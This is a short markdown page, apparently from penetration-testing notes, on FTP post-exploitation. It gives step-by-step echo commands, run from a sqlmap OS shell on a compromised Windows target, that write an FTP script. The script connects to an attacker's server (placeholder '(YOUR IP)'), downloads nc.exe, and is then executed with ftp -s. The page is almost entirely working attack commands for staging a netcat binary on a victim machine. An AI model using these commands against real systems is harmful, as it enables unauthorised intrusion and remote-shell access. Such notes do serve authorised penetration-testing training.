 # FTP Post Exploitation Techniques
This module will contain all FTP-related tasks used during post-exploitation.
## Create an FTP Script
This is a script to run as you call FTP from the shell. This example is done from the `--os-shell` provided by `sqlmap`. 

`os-shell> echo open (YOUR IP) 21> C:\share\ftp.txt` *(Writeable Directory on target)*

`os-shell> echo USER pwnt>> C:\share\ftp.txt` 

`os-shell> echo passwd>> C:\share\ftp.txt` *(Password for your FTP Server)*

`os-shell> echo bin>> C:\share\ftp.txt` *(Sets transfer up for binary files/bytes)* 

`os-shell> echo GET nc.exe>> C:\share\ftp.txt` 

`os-shell> echo bye>> C:\share\ftp.txt` 

Then, we can run the script with:

`os-shell> ftp -v -n -s:C:\share\ftp.txt` *(PATH to your Script on Target)* 
